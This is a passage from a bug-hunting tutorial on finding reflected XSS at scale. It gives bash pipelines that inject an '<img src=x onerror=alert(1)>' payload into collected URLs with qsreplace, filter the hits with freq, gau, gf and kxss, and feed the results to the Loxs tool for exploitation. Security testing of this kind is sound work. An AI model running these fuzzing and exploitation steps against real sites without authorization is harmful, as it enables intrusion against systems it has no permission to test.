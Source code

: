 ![[Pasted image 20250312185451.png]]



With so many endpoints, I used **qsreplace** to fuzz for XSS vulnerabilities. Here's the command:

```bash
cat endpoint.txt | qsreplace '"<img src=x onerror=alert(1)>' | tee -a xss_fuzz.txt
```

To check which parameters reflected the payload, use a tool called **FREQ**. This tool sends multiple requests and identifies URLs reflecting the payload:

```bash
cat xss_fuzz.txt | freq | tee -a possible_xss.txt
```

**or try to use:**

> echo example.com | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt


Once you run the command, you’ll get a list of URLs with reflected parameters that could be susceptible to XSS. The next step is to refine and validate the results to reduce noise and focus on real vulnerabilities.

# Refining the Results

To clean up the output and show only URLs with potentially vulnerable parameters, use the following command:

```bash
cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt
```

This command will:

- Extract only the URLs from the output.
- Remove everything after the `=` sign to focus on the parameters.
- Sort the results to ensure they are unique.


# Step 3: Exploiting with Loxs Tool

After refining the list, it’s time to exploit the potential XSS vulnerabilities using the **Loxs** tool.

# How to Use the Loxs Tool

1. Navigate to your Loxs tool folder.
2. Run the tool and select option **4** for XSS testing.
3. Enter the path to your `final.txt` file containing the filtered URLs.
4. Provide the path to your XSS payload file.
5. Hit Enter and let the tool perform the exploitation.

## TEST FOR MORE PARAMS:
